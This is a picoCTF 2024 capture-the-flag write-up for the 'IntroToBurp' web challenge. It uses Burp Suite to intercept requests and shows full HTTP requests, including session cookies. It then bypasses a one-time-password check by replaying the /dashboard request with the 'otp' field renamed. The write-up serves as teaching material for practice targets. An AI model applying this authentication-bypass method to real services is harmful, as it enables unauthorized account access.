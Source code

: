 # IntroToBurp

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Level: Easy
Tags: picoCTF 2024, Web Exploitation
Author: NANA AMA ATOMBO-SACKEY & SABINE GISAGARA

Description:
Try here to find the flag

Hints:
1. Try using burpsuite to intercept request to capture the flag.
3. Try mangling the request, maybe their server-side code doesn't handle 
   malformed requests very well.
```
Challenge link: [https://play.picoctf.org/practice/challenge/419](https://play.picoctf.org/practice/challenge/419)

## Solution

### Analyse the web site

Browse to the web site and you will see a registration web page with five text boxes and a `Register` button.

Start [BURP Suite](https://portswigger.net/burp) and configure your browser to use Burp as its proxy.
Then set 'Intercept' to off under the `Proxy` -> `Intercept` tab.

Next, we register some bogus information on the web page and let Burp catch the request which looks like this
```
POST / HTTP/1.1
Host: titan.picoctf.net:59762
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titan.picoctf.net:59762/
Content-Type: application/x-www-form-urlencoded
Content-Length: 174
Origin: http://titan.picoctf.net:59762
DNT: 1
Connection: keep-alive
Cookie: session=.eJw1jcsKwjAQRX9Fsu7CpHnpB_gDxXVokiktzaMkKSLivzsV3Z17LnfmRdzSnuRKhpbdOucQSUdcLZNpeYWEBQUvuHVcT1ppBkpZKdioLAjbq9477h1jkl5wN-0hmDRGwNkN-fTljuS2oRGcaXrGuI21PnLx6AK0CEs65JwTmLRHC-X4ynoupMJir1B-N-9_fH8AZl045Q.ZmbzvA.b9WKQbgaex2C-M19mGpLM2OMMYw
Upgrade-Insecure-Requests: 1
Priority: u=1

csrf_token=IjFlZDU0YmM0OGY4NzgyZTc3YjY1MmE3YmU1YjM3M2RjNGRjMjI2MTki.Zmb14Q.m0F_00t8_d03iaIal1cDYGISH7Y&full_name=A&username=B&phone_number=C&city=D&password=E&submit=Register
```

After submitting the registration data you are redirected to a `/dashboard` page which wants a 2FA value.  
Submit any bogus data here.  

This request looks like this
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:59762
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titan.picoctf.net:59762/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://titan.picoctf.net:59762
DNT: 1
Connection: keep-alive
Cookie: session=.eJwti8sOwiAQAP9lzx6EQhe9afU7CI8lGltooMQY47-7Jt5mJpk3hPv2giNcYAeh1WS38qDMQVDUygdlkkEjCdGPWjr0pP2AQwwqBilHceAv9Xm22S3E24m9bCsTCmlwz7q61p6lRm7Xn95KJpv74qlymjj1RvX_n-HzBaDgK5c.Zmb6Dw.kY8tuOGUScAGpfmmCA7JVYn5T6E
Upgrade-Insecure-Requests: 1
Priority: u=1

otp=bogus
```
The result is a web page displaying `Invalid OTP`.

### Get the flag

To get the flag we need to maniplulate the POST-request to `/dashboard`.  
Under `Proxy` -> `HTTP history` tab right-click on this POST request and 'Send to Repeater'.  
Then navigate to the `Repeater` tab.  

Change the `otp` value in the request to something else and set it to any value.  
Then send the request.

I used the following request
```
<---Unchanged data removed for readability--->
Upgrade-Insecure-Requests: 1
Priority: u=1

bogus=4711
```
And got this reply back
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Mon, 10 Jun 2024 13:15:04 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 102
Vary: Cookie
Connection: close

Welcome, B you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Burp suite - Homepage](https://portswigger.net/burp)
- [Wikipedia - HTTP](https://en.wikipedia.org/wiki/HTTP)
- [Wikipedia - Multi-factor authentication](https://en.wikipedia.org/wiki/Multi-factor_authentication)
- [Wikipedia - One-time password](https://en.wikipedia.org/wiki/One-time_password)
